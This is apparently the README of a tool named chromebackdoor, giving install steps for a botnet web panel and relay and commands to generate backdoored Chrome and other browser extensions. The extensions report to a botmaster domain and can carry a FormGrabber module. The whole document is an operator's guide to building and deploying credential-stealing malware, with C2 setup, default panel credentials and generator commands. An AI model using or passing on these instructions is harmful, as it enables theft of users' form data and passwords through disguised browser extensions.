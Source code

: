 #INSTALL WEB

1) unzip file generated by chromebackdoor

```sh
unzip folder.zip
```

2) Upload a folder web & relais on hosting

3) create database & user and update config file
```sh
/web/includes/config.php
```

4) Login on webpanel (web/index.php)
```python
username = root
password = toor
```

#GENERATE BOT (without .EXE)

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc
